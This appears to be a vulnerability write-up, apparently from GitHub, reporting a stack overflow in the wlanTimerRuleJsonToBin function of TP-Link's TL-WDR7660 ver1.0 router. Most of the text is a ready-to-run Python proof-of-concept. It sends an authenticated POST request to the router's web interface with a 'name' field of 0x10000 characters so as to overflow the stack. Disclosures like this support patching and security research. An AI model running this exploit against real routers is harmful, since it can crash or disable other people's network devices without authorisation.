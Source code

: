 **A stack overflow vulnerability exists in TL-WDR7660**
**version:  TL-WDR7660 ver1.0**

The wlanTimerRuleJsonToBin function is not checked when handling a copy of the important parameter name.It can result in the stack to overflow

![image](../image/1.png)

**Exploit a vulnerability in the wlanTimerRuleJsonToBin function by sending a carefully constructed HTTP request**
```
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds " #COOKIE需要对应捕获
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data = {"time_switch":{"name":"a"*0x10000,"table":"time_switch","para":{"mon":"1","tue":"1","wed":"1","thu":"1","fri":"1","sat":"1","sun":"1","name":"a","enable":1,"start_time":"00%3A00","end_time":"01%3A00"}},"method":"add"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```
**The following figure shows the result**

![image](../image/2.png)
